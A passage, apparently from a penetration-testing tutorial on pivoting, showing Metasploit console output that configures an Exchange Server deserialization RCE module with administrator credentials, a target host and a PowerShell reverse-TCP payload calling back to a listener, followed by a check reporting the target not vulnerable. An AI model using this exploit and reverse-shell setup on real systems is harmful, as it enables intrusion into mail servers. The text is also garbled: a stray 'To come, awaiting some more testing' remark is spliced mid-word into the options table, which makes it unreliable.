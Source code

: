 
## Using the Pivot
At this point we can now use the pivot with any Metasploit modules as shown below:

```msf
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_denylist_typo_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  thePassword      yes       The password to use to authenticate to the Ex
                                            change server
   HttpUsername  administrator    yes       The username to log into the Exchange server
                                            as
   Proxies                        no        A proxy chain of format type:host:port[,type:
                                            host:port][...]
   RHOSTS        169.254.204.110  yes       The target host(s), see https://github.com/ra
                                            pid7/metasploit-framework/wiki/Using-Metasplo
                                            it
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yTo come, awaiting some more testing hold on :)es       The local host or network interface to listen
                                             on. This must be an address on the local mac
                                            hine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is
                                            randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is r
                                            andom)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         172.19.182.171   yes       The listen address (an interface may be speci
                                            fied)
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > check

[*] Target is an Exchange Server!
[*] 169.254.204.110:443 - The target is not exploitable. Exchange Server 15.2.986.14 does not appear to be a vulnerable version!
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) >
```
